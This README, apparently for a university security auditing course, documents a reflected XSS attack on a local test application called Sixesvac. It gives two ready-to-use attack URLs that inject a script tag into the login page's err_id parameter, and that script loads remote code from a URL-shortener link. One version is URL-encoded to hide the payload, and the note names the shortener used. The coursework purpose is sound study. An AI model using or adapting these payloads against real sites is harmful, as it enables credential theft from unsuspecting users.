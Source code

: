 # sixesvac-xss
Ejemplo de ataque de XSS para el robo de credenciales en la aplicación de prueba Sixesvac, para la asignatura de Auditoría e Xestión de Seguridade.

## URL a usar para el ataque XSS
1. `http://localhost:8080/privado/login.php?err_id=<script src="http://shorturl.at/depAO"></script>` (47 caracteres en parámetro de consulta)
3. `http://localhost:8080/privado/login.php?err_id=%3C%73%63%72%69%70%74%20%73%72%63%3D%22%68%74%74%70%3A%2F%2F%73hort%2E%61%74%2FdepAO%22%3E%3C%2F%73%63%72%69%70%74%3E` (117 caracteres en parámetro de consulta; discreto mediante codificación URL)

## Acortador de URL usado
https://www.shorturl.at/shortener.php
